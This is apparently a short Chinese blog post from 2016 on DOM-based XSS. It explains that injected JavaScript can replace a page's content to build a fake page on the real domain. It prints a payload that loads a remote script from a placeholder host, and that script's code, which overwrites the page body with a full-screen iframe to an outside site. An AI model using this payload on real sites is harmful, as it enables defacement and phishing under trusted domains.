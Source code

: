 ```yaml
---
layout: post
title: "DOM XSS"
date: 2016-08-03 11:04:09 +0800
comments: true
categories: security
---
```

因为JavaScript脚本功能强大，我们可以利用它来更改整个页面内容，所以我们就可以制造出利用真的目标域名的假页面

![](http://jason5.cn/images/xss-dom.png)

page解码后为

```javascript
<script src="http://xxxx.com/yy.js"></script>
```

yy.js的内容

```javascript
function window.onload(){
	parent.document.title="XSS test";
    parent.document.bgColor="black";
    parent.document.fgColor="white";
    parent.document.body.innerHTML="<iframe src='http://www.qqdx.albbz.cn/' width='100%' height='100%'>";
}
```

原始页面内容

![](http://jason5.cn/images/xss-dom1.png)